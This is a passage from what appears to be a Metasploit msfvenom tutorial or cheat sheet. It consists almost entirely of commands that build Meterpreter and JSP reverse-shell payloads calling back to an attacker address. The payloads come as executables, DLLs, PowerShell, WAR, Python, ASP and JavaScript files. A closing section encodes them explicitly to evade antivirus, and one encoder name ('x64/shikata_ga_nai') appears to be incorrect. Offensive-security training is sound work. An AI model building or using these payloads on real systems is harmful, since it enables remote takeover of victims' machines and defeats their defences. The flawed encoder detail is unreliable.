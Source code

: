 ```bash

# List available architectures
msfvenom --list archs
```

#### Output Formats for Different Scenarios

```bash
# Windows executable
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f exe > payload.exe

# Windows service executable
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f exe-service > service.exe

# DLL file
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f dll > payload.dll

# PowerShell command
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f psh -o payload.ps1

# Java WAR file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f war > payload.war

# Python script
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f raw > payload.py

# ASP file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f asp > payload.asp

# JavaScript
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -f js_le > payload.js
```

#### Encoding and Evasion Techniques

Antivirus software can detect standard Metasploit payloads. Encoding helps bypass these detections:

```bash
# List available encoders
msfvenom --list encoders

# Apply a single encoder
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x64/xor -f exe > encoded_payload.exe

# Apply multiple iterations of encoding
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x64/xor -i 10 -f exe > multi_encoded.exe

# Use the most effective encoder for the platform
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x64/shikata_ga_nai -i 15 -f exe > best_encoded.exe

# Add custom padding for further obfuscation
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.200 LPORT=4444 -e x64/shikata_ga_nai -i 15 -b "\x00" -f exe -n 20 > evasive_payload.exe
```
